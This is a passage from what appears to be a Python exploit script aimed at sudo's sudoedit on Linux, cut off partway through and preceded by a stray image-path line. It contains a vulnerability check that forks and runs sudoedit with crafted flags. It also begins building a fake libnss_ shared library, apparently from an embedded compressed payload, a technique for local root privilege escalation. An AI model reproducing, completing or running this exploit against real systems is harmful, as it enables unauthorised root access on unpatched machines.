 SUDO_PATH = b"/usr/bin/sudo"

libc = cdll.LoadLibrary("libc.so.6")

#don't use LC_ALL (6). it override other LC_
LC_CATS = [
	b"LC_CTYPE", b"LC_NUMERIC", b"LC_TIME", b"LC_COLLATE", b"LC_MONETARY",
	b"LC_MESSAGES", b"LC_ALL", b"LC_PAPER", b"LC_NAME", b"LC_ADDRESS",
	b"LC_TELEPHONE", b"LC_MEASUREMENT", b"LC_IDENTIFICATION"
]

def check_is_vuln():
	# below commands has no log because it is invalid argument for both patched and unpatched version
	# patched version, error because of '-s' argument
	# unpatched version, error because of '-A' argument but no SUDO_ASKPASS environment
	r, w = os.pipe()
	pid = os.fork()
	if not pid:
		# child
		os.dup2(w, 2)
		execve(SUDO_PATH, [ b"sudoedit", b"-s", b"-A", b"/aa", None ], [ None ])
		exit(0)
	#parent
	os.close(w)
	os.waitpid(pid, 0)
	r = os.fdopen(r, 'r')
	err = r.read()
	r.close()
	
	if "sudoedit: no askpass program specified, try setting SUDO_ASKPASS" in err:
		return True
	assert err.startswith('usage: ') or "invalid mode flags " in err, err
	return False

def create_libx(name):
	so_path = 'libnss_'+name+'.so.2'
	if os.path.isfile(so_path):
		return  # existed
	
	so_dir = 'libnss_' + name.split('/')[0]
	if not os.path.exists(so_dir):
		os.makedirs(so_dir)
	
	import zlib
	import base64
